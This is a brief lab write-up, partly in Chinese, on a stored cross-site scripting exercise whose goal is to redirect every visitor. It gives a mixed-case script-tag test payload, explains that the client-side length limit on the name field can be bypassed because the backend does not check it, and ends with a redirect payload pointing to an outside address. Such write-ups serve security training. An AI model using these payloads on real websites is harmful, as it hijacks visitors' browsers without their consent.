 # Stored Cross Site Scripting (XSS)

> Objective
Redirect everyone to a web page of your choosing.

### 觀察

```jsx
<sCript> alert(1) </sCript>
```
經過測試後你會發現第一個 name input 防護比較脆弱，有機可趁，但有限制長度，不過可以直接修改 input 長度，後端並沒有檢查

### Done

```jsx
<sCript>location.href="https://1.1.1.1"</sCript>
```
